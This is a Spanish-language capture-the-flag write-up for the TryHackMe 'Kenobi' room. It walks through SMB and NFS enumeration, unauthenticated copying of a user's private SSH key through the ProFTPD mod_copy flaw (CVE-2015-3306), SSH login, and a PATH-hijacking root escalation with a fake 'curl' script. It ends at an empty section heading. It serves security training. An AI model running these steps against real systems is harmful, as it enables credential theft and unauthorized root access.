# Kenobi — TryHackMe Writeup

> Sala: [Kenobi](https://tryhackme.com/room/kenobi)
> Dificultad: Easy
> Técnicas: Enumeración SMB, FTP anónimo, ProFTPD exploit, PATH hijacking



## Resumen

Máquina Linux que requiere encadenar tres servicios distintos para lograr
acceso inicial: enumeración de shares SMB (revela un `log.txt` con
información del usuario `kenobi` y su servicio FTP), explotación de
ProFTPD 1.3.5 vía `mod_copy` (CVE-2015-3306) para copiar de forma no
autenticada la llave SSH privada de `kenobi`, y montaje del export NFS
`/var` (sin restricciones) para recuperar dicha llave y autenticarse por
SSH. La escalada de privilegios se logró mediante **PATH hijacking**: un
binario custom con SUID (`/usr/bin/menu`) invocaba `curl` sin ruta
absoluta, lo que permitió suplantarlo con un script malicioso priorizado
en el `$PATH`, obteniendo una shell de root.

## Objetivo

Según la descripción oficial de la sala: comprometer una máquina Linux
enumerando shares de Samba (SMB), explotando una versión vulnerable de
ProFTPD, y escalando privilegios mediante manipulación de la variable de
entorno `PATH` (*PATH hijacking*).

---

## 1. Reconocimiento

Arrancamos con un escaneo de puertos usando el flag `-v` (verbose), que
permite ver los puertos abiertos conforme nmap los va descubriendo, en vez
de esperar al reporte final:

```bash
nmap -v -sV -p- <IP>
```



### Puertos descubiertos

```
21/tcp    (FTP)
22/tcp    (SSH)
80/tcp    (HTTP)
111/tcp   (rpcbind)
139/tcp   (NetBIOS / Samba)
445/tcp   (SMB / Samba)
2049/tcp  (NFS)
```

### Pregunta

**¿Cuántos puertos están abiertos?**
Contando la lista de puertos descubiertos: `21, 22, 80, 111, 139, 445, 2049`
→ Respuesta: **7 puertos**.

### Lectura rápida de lo que implica esta combinación de puertos

Ya desde aquí se puede armar una hipótesis de por dónde va la máquina:
- **111 + 2049** → NFS (Network File System) expuesto, posible fuga de archivos montables
- **139 + 445** → Samba/SMB, hay que enumerar shares
- **21** → FTP, revisar si permite acceso anónimo
- **80** → servidor web, revisar por separado
- **22** → SSH, generalmente no es el vector de entrada directo, pero útil una vez que se tengan credenciales

### Versiones de servicio (escaneo completo con -sC -sV)

Complementamos el escaneo inicial con detección de versión y scripts por
defecto, para tener el detalle completo de cada servicio:

```bash
nmap -sC -sV -p- <IP>
```



| Puerto | Servicio | Versión |
|--------|----------|---------|
| 21 | ftp | **ProFTPD 1.3.5** |
| 22 | ssh | OpenSSH 8.2p1 Ubuntu |
| 80 | http | Apache httpd 2.4.41 (Ubuntu) |
| 111 | rpcbind | 2-4 |
| 139/445 | netbios-ssn / smb | Samba smbd 4.6.2 |
| 2049 | nfs | 3-4 |

**Dato clave:** `ProFTPD 1.3.5` es una versión con vulnerabilidades públicas
conocidas — la anotamos como candidato fuerte para revisar más adelante.

---

## 2. Enumeración de servicios

### 2.1 Intento de enumerar shares SMB con nmap

```bash
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse <IP>
```



Este intento **no devolvió información de shares** — el script corrió pero
no listó nada. Esto puede pasar por cómo cada NSE script negocia la sesión
SMB (a veces requiere parámetros adicionales de autenticación/anónimos según
la versión de Samba). En vez de insistir con nmap, pasamos a una herramienta
dedicada a enumeración SMB.

### 2.2 Enumeración con enum4linux

```bash
enum4linux -a <IP>
```



### Resultado

```
Found 3 share(s):
- IPC$      (IPC Service)
- anonymous (Disk)     <-- share personalizado, nombre sospechoso
- print$    (Printer Drivers)
```

Al probar acceso a cada share, `anonymous` permite **Mapping: OK, Listing: OK**
— es decir, se puede listar contenido sin credenciales. Este es nuestro
siguiente objetivo a explorar.

### Pregunta

**Usando el comando de nmap de arriba, ¿cuántos shares se encontraron?**
El script de nmap en este caso no devolvió resultados directamente, pero la
enumeración vía RPC (con `enum4linux`, que usa el mismo protocolo SMB por
debajo) confirmó el total real del servidor → Respuesta: **3 shares**
(`IPC$`, `anonymous`, `print$`).

---

## 3. Explotación inicial

### 3.1 Explorar el share `anonymous` vía SMB

Nos conectamos al share que permitía listado sin credenciales, dejando el
password en blanco (Enter):

```bash
smbclient //<IP>/anonymous
```



Dentro del share solo hay un archivo:

```bash
ls
```

```
log.txt   (12237 bytes)
```

Lo descargamos y lo leemos:

```bash
get log.txt
cat log.txt
```

> También se puede descargar el share completo de forma recursiva con
> `smbget -R smb://<IP>/anonymous` (usuario y contraseña vacíos), útil
> cuando hay más de un archivo o subdirectorios.

### Pregunta

**Una vez conectado, ¿qué archivo puedes ver en el share?**
→ Respuesta: **`log.txt`**

El contenido de `log.txt` resulta ser información generada durante la
creación de una llave SSH para el usuario **kenobi**, junto con datos sobre
la configuración del servidor **ProFTPD** — ambos datos son pistas directas
para los siguientes pasos del ataque.

### 3.2 Enumeración del servicio NFS (puerto 111 / 2049)

El puerto **111** corresponde a `rpcbind` (también llamado *portmapper*),
que no es NFS en sí mismo, sino el servicio que **traduce** qué puerto está
usando cada servicio RPC (Remote Procedure Call) en la máquina — NFS es uno
de los servicios que típicamente se registra ahí (normalmente en el puerto
2049, que también vimos abierto en el nmap inicial).

Escaneamos específicamente los scripts NFS de nmap contra el 111 para
enumerar qué directorios están exportados (compartidos) por NFS:

```bash
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount <IP>
```



### Resultado

```
nfs-showmount:
  /var *
```

El `*` en `nfs-showmount` indica que el export `/var` está disponible para
**cualquier host** (sin restricción por IP) — otra mala configuración que
podemos aprovechar: si logramos montar `/var` localmente, podríamos leer
(y potencialmente escribir, dependiendo de los permisos) contenido del
sistema de archivos remoto directamente.

Dentro del listado (`nfs-ls`) destaca el subdirectorio **`www`** — el mismo
nombre que suelen usar los servidores web para servir contenido
(`/var/www`), lo cual es un candidato fuerte para explorar a continuación.

### 3.3 Confirmar la versión de ProFTPD y buscar exploits

Ya desde el primer escaneo con `-sV` teníamos la versión del servicio FTP:



```
21/tcp open ftp  ProFTPD 1.3.5
```

> **Nota metodológica:** la sala sugiere confirmar esto conectándose
> manualmente al puerto FTP con netcat y leyendo el banner de bienvenida
> del servidor — una verificación cruzada útil porque la detección de
> versión de nmap es heurística y en máquinas reales no siempre es exacta.
> El comando correcto para esto es netcat en **modo cliente** (sin `-l`):
> ```bash
> nc <IP> 21
> ```
> (Por error se ejecutó `nc -lvnp 21`, que en realidad pone la propia
> máquina atacante en modo *escucha* en el puerto 21, sin conectarse al
> objetivo — no confundir modo cliente con modo servidor de netcat. El
> dato de versión ya estaba confirmado igualmente por el nmap inicial.)



### Pregunta

**¿Cuál es la versión?**
→ Respuesta: **ProFTPD 1.3.5**

### Búsqueda de exploits conocidos

```bash
searchsploit proftpd
```




> **Nota:** este comando sin especificar versión trae resultados de
> versiones distintas de ProFTPD/WU-FTPD (`1.2 pre1`, `2.4.2`, etc.), no
> todos aplican necesariamente a la versión `1.3.5` instalada aquí. Para
> una búsqueda más precisa en el futuro conviene filtrar por versión exacta:
> `searchsploit proftpd 1.3.5`. En este caso el total de resultados
> coincidió con lo que pedía la sala, pero vale la pena tener el hábito de
> filtrar por versión para no contar exploits que no aplican al objetivo real.

### Pregunta

**¿Cuántos exploits hay para la versión de ProFTPd corriendo?**
→ Respuesta: **4**

### 3.4 Explotar ProFTPD con `mod_copy` (CVE-2015-3306)

El módulo `mod_copy` de ProFTPD implementa los comandos `SITE CPFR` (Copy
**F**rom) y `SITE CPTO` (Copy **T**o), pensados para que el servidor copie
archivos internamente sin tener que subirlos/descargarlos por el canal FTP
normal. El problema: estos comandos **no requieren autenticación** — con
solo tener una conexión abierta al puerto 21 (ni siquiera hace falta hacer
login), cualquiera puede pedirle al servidor que copie **cualquier archivo
del sistema** a cualquier otra ruta a la que el proceso FTP tenga acceso de
escritura. Es, en esencia, una primitiva de **lectura/copia arbitraria de
archivos no autenticada**.

Ya sabíamos por el `log.txt` del share SMB que el proceso FTP corre como el
usuario `kenobi`, y que existe una llave SSH generada para ese usuario. La
estrategia entonces es clara: usar `mod_copy` para copiar la llave privada
SSH de `kenobi` (que normalmente solo el propio usuario podría leer) hacia
una ubicación donde nosotros sí tengamos acceso de lectura.

Nos conectamos manualmente al FTP con netcat (modo cliente) y enviamos los
comandos `SITE CPFR` / `SITE CPTO` directamente:

```bash
nc <IP> 21
SITE CPFR /home/kenobi/.ssh/id_rsa
SITE CPTO /var/tmp/id_rsa
```



```
350 File or directory exists, ready for destination name
250 Copy successful
```

La respuesta `250 Copy successful` confirma que el servidor copió la llave
privada de `kenobi` hacia `/var/tmp/id_rsa` — una ruta que después vamos a
poder alcanzar a través del share NFS que enumeramos antes (recordemos que
`/var` estaba exportado sin restricciones).

### 3.5 Montar el export NFS y recuperar la llave

```bash
mkdir /mnt/kenobiNFS
mount 10.64.159.185:/var /mnt/kenobiNFS
ls -la /mnt/kenobiNFS
```



**Explicación técnica de lo que hace cada paso:**
- `mkdir /mnt/kenobiNFS` crea un punto de montaje local (un directorio
  vacío) donde vamos a "enganchar" el sistema de archivos remoto.
- `mount <IP>:/var /mnt/kenobiNFS` usa el protocolo **NFS** (Network File
  System) para montar el directorio `/var` de la máquina remota como si
  fuera una carpeta más de nuestro propio sistema de archivos local. A
  diferencia de SMB (que es más tipo "compartir una carpeta de Windows"),
  NFS opera a nivel de sistema de archivos — una vez montado, comandos
  normales de Linux (`ls`, `cp`, `cat`) funcionan directo sobre el
  contenido remoto, sin necesidad de un cliente FTP/SMB especial.
- Como el export de `/var` no tenía restricción de host (`*`, visto en la
  enumeración anterior) ni exigía autenticación, cualquier cliente puede
  montarlo — otra mala configuración encadenada con la anterior.

Dentro del montaje confirmamos que existe el directorio `tmp`, donde
copiamos la llave con el exploit de `mod_copy`:

```bash
cp /mnt/kenobiNFS/tmp/id_rsa .
chmod 600 id_rsa
```

`chmod 600` es obligatorio aquí: SSH **rechaza** llaves privadas con
permisos demasiado abiertos (legibles/escribibles por otros usuarios o
grupos), como medida de seguridad estándar del propio cliente SSH.

### 3.6 Conectarse por SSH como `kenobi`

```bash
ssh -i id_rsa kenobi@<IP>
```




```
kenobi@kenobi:~$ whoami
kenobi
```

Acceso confirmado como el usuario `kenobi`, sin necesidad de contraseña —
la autenticación fue completamente vía llave pública/privada, gracias a la
llave que se logró exfiltrar con la cadena SMB → log.txt → mod_copy → NFS.

### Captura de la flag de usuario

```bash
cat /home/kenobi/user.txt
```


**User flag:** `[censurada — ver sección Flags]`

---

## 4. Enumeración post-explotación

*(pendiente)*

---

## 5. Escalada de privilegios (PATH hijacking)

### 5.1 Búsqueda de binarios SUID

Ya con acceso como `kenobi`, buscamos binarios con el bit SUID activo:

```bash
find / -perm -u=s -type f 2>/dev/null
```




La mayoría de la lista son binarios estándar del sistema (`sudo`, `su`,
`passwd`, `chsh`, `mount`, `pkexec`, componentes de `snap`, etc.) — todos
esperables en cualquier instalación de Ubuntu.

### Pregunta

**¿Qué archivo se ve particularmente fuera de lo común?**
→ Respuesta: **`/usr/bin/menu`**

**¿Por qué destaca?** A diferencia del resto de la lista, `menu` **no es un
binario del sistema operativo ni de ningún paquete estándar de Ubuntu** —
los binarios legítimos del sistema (`passwd`, `su`, `mount`...) están
documentados y son reconocibles; `menu` es un nombre genérico, corto, y no
corresponde a ninguna herramienta conocida de Linux. Eso indica que fue
**colocado ahí intencionalmente por quien configuró la máquina**, casi
siempre como vector deliberado de práctica de escalada — cualquier binario
"casero" con SUID activo amerita revisión inmediata.

### 5.2 Ejecutar el binario y analizar su comportamiento

```bash
/usr/bin/menu
```



```
1. status check
2. kernel version
3. ifconfig
```

### Pregunta

**Al correr el binario, ¿cuántas opciones aparecen?**
→ Respuesta: **3** (`status check`, `kernel version`, `ifconfig`)

Al seleccionar la opción 1 (`status check`), el binario internamente corre
un comando (probablemente `curl` o similar) para hacer una petición HTTP
local y mostrar el resultado — se puede notar que **no se especifica la
ruta completa del binario invocado** (es decir, el código fuente del
programa probablemente llama a algo como `curl ...` en vez de
`/usr/bin/curl ...`).

### 5.3 La vulnerabilidad: PATH hijacking

**Explicación técnica:** cuando un programa invoca un comando **sin
especificar su ruta absoluta**, el sistema operativo busca ese ejecutable
recorriendo, **en orden**, cada directorio listado en la variable de
entorno `$PATH` del usuario que ejecuta el proceso — y usa el **primer**
binario con ese nombre que encuentre.

Esto es un problema serio cuando el binario que hace esa llamada tiene el
bit **SUID** activo (como `menu`, que corre con privilegios de **root**,
sin importar qué usuario lo ejecute): si nosotros logramos que **nuestro
propio directorio** (donde tenemos control total de qué archivos hay)
aparezca **antes** que los directorios legítimos del sistema (`/usr/bin`,
`/bin`) en el `$PATH`, podemos colocar ahí un archivo malicioso con el
**mismo nombre** que el comando que `menu` invoca internamente (`curl`).
Cuando `menu` (corriendo como root) intente ejecutar `curl`, el sistema
encontrará primero nuestro archivo falso y lo ejecutará — **con privilegios
de root**, porque el proceso padre (`menu`) ya los tenía por el SUID.

### 5.4 Intento de explotación

```bash
echo /bin/sh > curl
chmod 777 curl
export PATH=/tmp:$PATH
/usr/bin/menu
```

**Lo que se busca con cada paso:**
1. `echo /bin/sh > curl` — crea un archivo llamado `curl` en el directorio
   actual (`/tmp`, donde normalmente cualquier usuario tiene permisos de
   escritura) cuyo contenido es simplemente una instrucción para invocar
   una shell.
2. `chmod 777 curl` — le da permisos de ejecución al archivo (77x es
   necesario para que el sistema lo considere ejecutable).
3. `export PATH=/tmp:$PATH` — **prepende** `/tmp` al `$PATH` actual, de
   forma que quede como el **primer** directorio de búsqueda, antes que
   `/usr/bin` o `/bin` (donde está el `curl` real).
4. `/usr/bin/menu` — se ejecuta el binario vulnerable, esperando que al
   elegir la opción que invoca `curl`, tome nuestro `curl` falso en vez del
   real, y nos dé una shell con privilegios de root.

### 5.4 Explotación exitosa

